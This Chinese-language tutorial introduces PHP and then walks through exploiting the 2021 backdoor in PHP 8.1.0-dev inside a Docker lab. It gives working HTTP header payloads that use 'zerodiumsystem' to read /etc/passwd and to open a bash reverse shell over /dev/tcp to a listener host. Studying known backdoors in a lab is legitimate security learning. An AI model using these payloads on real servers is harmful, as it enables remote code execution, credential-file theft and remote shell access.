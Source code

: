 简介
==

PHP（PHP: Hypertext Preprocessor）即“[超文本](https://baike.baidu.com/item/%E8%B6%85%E6%96%87%E6%9C%AC)[预处理器](https://baike.baidu.com/item/%E9%A2%84%E5%A4%84%E7%90%86%E5%99%A8)”，是在[服务器](https://baike.baidu.com/item/%E6%9C%8D%E5%8A%A1%E5%99%A8/100571)端执行的[脚本语言](https://baike.baidu.com/item/%E8%84%9A%E6%9C%AC%E8%AF%AD%E8%A8%80/1379708)，尤其适用于[Web](https://baike.baidu.com/item/Web/150564)开发并可嵌入[HTML](https://baike.baidu.com/item/HTML/97049)中。PHP语法学习了[C语言](https://baike.baidu.com/item/C%E8%AF%AD%E8%A8%80/105958)，吸纳[Java](https://baike.baidu.com/item/Java/85979)和[Perl](https://baike.baidu.com/item/Perl/851577)多个语言的特色发展出自己的特色语法，并根据它们的长项持续改进提升自己，例如java的[面向对象](https://baike.baidu.com/item/%E9%9D%A2%E5%90%91%E5%AF%B9%E8%B1%A1/2262089)编程，该语言当初创建的主要目标是让开发人员快速编写出优质的web[网站](https://baike.baidu.com/item/%E7%BD%91%E7%AB%99/155722)。 \[1-2\] PHP同时支持面向对象和[面向过程](https://baike.baidu.com/item/%E9%9D%A2%E5%90%91%E8%BF%87%E7%A8%8B/9957246)的开发，使用上非常灵活。

经过二十多年的发展，随着php-cli相关组件的快速发展和完善，PHP已经可以应用在\[ TCP\](<https://baike.baidu.com/item/> TCP/33012)/[UDP](https://baike.baidu.com/item/UDP/571511)服务、高性能Web、[WebSocket](https://baike.baidu.com/item/WebSocket/1953845)服务、[物联网](https://baike.baidu.com/item/%E7%89%A9%E8%81%94%E7%BD%91/7306589)、[实时通讯](https://baike.baidu.com/item/%E5%AE%9E%E6%97%B6%E9%80%9A%E8%AE%AF/2895640)、游戏、[微服务](https://baike.baidu.com/item/%E5%BE%AE%E6%9C%8D%E5%8A%A1/18758759)等非 Web 领域的系统研发。

8.1-dev backdoor
================

PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送**User-Agentt**头来执行任意代码。

进入8.1-backdoor的docker环境

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6369800f30e20ab005551c595a23c20d7f91433c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6369800f30e20ab005551c595a23c20d7f91433c.png)

访问8080端口为一个hello world

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-35a08c76e55ffd91f580de4d8b021c6cfef822c3.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-35a08c76e55ffd91f580de4d8b021c6cfef822c3.png)

bp抓包并构造一个`User-Agentt`放入，读取passwd

```php
User-Agentt: zerodiumsystem("cat /etc/passwd");
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7bedd9ee998c07f3311e92ecdab59712b7a705ad.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7bedd9ee998c07f3311e92ecdab59712b7a705ad.png)

切换命令读取whoami

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6a3cd742f76c974c4b74f63c3c5310f66f10592b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6a3cd742f76c974c4b74f63c3c5310f66f10592b.png)

是用`zerodiumsystem`函数进行bash反弹

```php
User-Agentt: zerodiumsystem("bash -c 'exec bash -i >&amp; /dev/tcp/192.168.1.10/7777 0>&amp;1'"); 
```
